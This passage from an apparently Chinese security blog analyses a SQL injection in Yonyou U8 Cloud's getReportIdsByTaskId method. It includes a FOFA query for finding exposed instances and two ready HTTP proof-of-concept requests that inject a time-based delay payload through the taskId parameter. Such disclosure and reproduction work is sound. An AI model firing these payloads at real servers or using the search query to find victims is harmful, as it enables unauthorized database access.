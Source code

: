 闭合的传参就是这样  
```
?taskId=1');恶意SQL语句
```  
  
分析完了方法之后，只有找到调用该危险方法的服务类就行，使用/service/~iufo/com.ufida.web.action.ActionServlet?action=  
调用指定Action类和方法，就能就行利用  
  
搜索漏洞方法名称getReportIdsByTaskId  
可以看到其他类方法，如BusinessRefAction  
也调用了该方法  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK6fQUs1kbRDnboAGsiaMnbPf7t9m0BMLZxbXmicgU4Wzg3qBOGxOovBUAMicjBXLbXLialU3VvzuHwib3Q/640?wx_fmt=png&from=appmsg "")  
  
因此此处也存在漏洞，传参taskId  
同样也可以被闭合  
## 四、总结  
  
U8cloud系统MultiRepChooseAction  
接口和BusinessRefAction  
接口的getReportIdsByTaskId  
方法中拼接SQL语句造成了SQL注入漏洞，攻击者可以构造任意的taskId  
参数，执行恶意的SQL语句。  
## 五、资产测绘  
  
FOFA语法  
```
app="用友-U8-Cloud"

```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK6fQUs1kbRDnboAGsiaMnbPfhMiar2VajRN2Q4hCliahmTDvZrLXh6R8MIHezxhaaKSbJc0uFlVyX6Eg/640?wx_fmt=png&from=appmsg "")  
## 六、漏洞复现  
  
POC  
```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.web.reference.MultiRepChooseAction&method=execute&taskId=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close

```  
  
延时注入5秒  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK6fQUs1kbRDnboAGsiaMnbPfmVI7mIazzWBX99lT6LeiaA3bhyUP2wkdKB6MVVKUGBQg9FXCdEfyW2g/640?wx_fmt=png&from=appmsg "")  
  
同理另外一个POC  
```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.web.reference.BusinessRefAction&method=getTaskRepTreeRef&taskId=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: close
```  
  